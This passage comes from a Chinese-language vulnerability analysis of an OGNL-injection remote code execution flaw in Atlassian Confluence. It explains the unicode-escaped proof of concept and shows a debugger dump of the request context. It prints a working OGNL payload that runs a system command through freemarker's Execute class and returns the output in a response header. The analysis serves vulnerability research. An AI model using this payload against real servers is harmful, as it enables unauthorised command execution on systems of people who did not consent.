 用 unicode 是为了防止 url 编码导致参数传入失败。并且 Ognl 是支持 unicode 编码的。之后就是 poc 的第二段

```plain
poc=@org.apache.struts2.ServletActionContext@getResponse().setHeader('Cmd-Responses-Header',(new freemarker.template.utility.Execute()).exec({"id"}))
```

用 freemarker 去做命令执行处理，cmd 回显策略。这一段就是很普通的 ognl 命令回显了，并没有什么其他的操作。

## 0-1.1 有趣的思考

[![](assets/1710899069-0e1fc6300269af2f13eab22e07601922.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227111425-4fc7407e-d51e-1.png)

漏洞点中的 context 如上图所示，内容为

```plain
"com.opensymphony.xwork2.ActionContext.locale" -> {Locale@66441} 
"request" -> {RequestMap@66442}  size = 32
 key = "request"
 value = {RequestMap@66442}  size = 32
  "__prepare_recursion_counter" -> {Integer@66509} 1
  "org.apache.catalina.AccessLog.RemoteHost" -> "127.0.0.1"
  "com.atlassian.confluence.util.message.MessagesDecoratorFilter__already_filtered__" -> {Boolean@66513} true
  "Confluence-Request-Time" -> {Long@66515} 1707673048234
  "com.opensymphony.sitemesh.APPLIED_ONCE" -> {Boolean@66513} true
  "org.apache.tomcat.remoteAddr" -> "127.0.0.1"
  "B3-TraceId" -> "a981718bad3947"
  "struts.actionMapping" -> "noActionMapping"
  "__wrap_recursion_counter" -> {Integer@66509} 1
  "org.apache.catalina.AccessLog.Protocol" -> "HTTP/1.1"
  ".KEY_velocity.struts2.context" -> {StrutsVelocityContext@66526} 
  "com.atlassian.confluence.web.ConfluenceJohnsonFilter_already_filtered" -> {Boolean@66513} true
  "brave.propagation.TraceContext" -> {TraceContext@66529} 
  "com.atlassian.gzipfilter.GzipFilter_already_filtered" -> {Boolean@66513} true
  "org.apache.catalina.AccessLog.ServerName" -> "localhost"
  "atlassian.core.seraph.original.url" -> "/template/aui/text-inline.vm"
  "com.atlassian.labs.botkiller.BotKillerFilter" -> {Boolean@66513} true
  "sessioninview.FILTERED" -> {Boolean@66513} true
  "org.apache.struts2.dispatcher.filter.StrutsPrepareFilter.REQUEST_EXCLUDED_FROM_ACTION_MAPPING" -> {Boolean@66538} false
  "com.atlassian.confluence.web.filter.validateparam.RequestParamValidationFilter_already_filtered" -> {Boolean@66513} true
  "brave.servlet.TracingFilter$SendHandled" -> {TracingFilter$SendHandled@66541} 
  "brave.SpanCustomizer" -> {SpanCustomizerShield@66543} 
  "sitemesh.secondaryStorageLimit" -> {Long@66545} -1
```